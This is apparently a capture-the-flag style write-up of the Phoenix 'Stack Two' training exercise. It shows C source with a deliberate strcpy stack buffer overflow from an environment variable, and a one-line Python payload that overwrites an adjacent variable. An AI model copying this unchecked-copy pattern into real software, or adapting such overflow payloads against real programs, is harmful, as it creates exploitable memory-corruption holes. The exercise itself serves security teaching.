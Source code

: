 # Stack Two

```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

## Solution

This one is the same as the previous but checks an environment variable
1. set the variable: ``ExploitEducation=`python3 -c 'print("A"*64 + "\x0a\x09\x0a\x0d")'` /opt/phoenix/amd64/stack-two ``
